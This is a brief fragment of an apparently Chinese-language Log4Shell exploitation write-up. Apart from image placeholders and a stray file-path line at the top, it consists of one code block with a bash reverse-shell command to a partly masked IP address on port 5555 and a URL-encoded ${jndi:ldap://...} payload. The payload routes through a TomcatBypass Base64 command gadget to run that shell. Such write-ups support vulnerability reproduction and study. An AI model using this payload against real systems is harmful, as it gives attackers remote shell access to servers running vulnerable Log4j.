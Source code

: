 ![image-20211214130044181]($imgs/image-20211214130044181.png)

![image-20211214130119844]($imgs/image-20211214130119844.png)

发送编码后的payload。

```
cmd: bash -i >& /dev/tcp/47.xxx.xxx.xxx/5555 0>&1

c=%24%7Bjndi%3Aldap%3A%2F%2F47.xxx.xxx.xxx%3A9999%2FTomcatBypass%2FCommand%2FBase64%2FYmFzaCAtaSA%252BJiAvZGV2L3RjcC80Ny45xxxxxxxx81NTU1IDA%252BJjE%253D%7D
```

![image-20211214130428007]($imgs/image-20211214130428007.png)
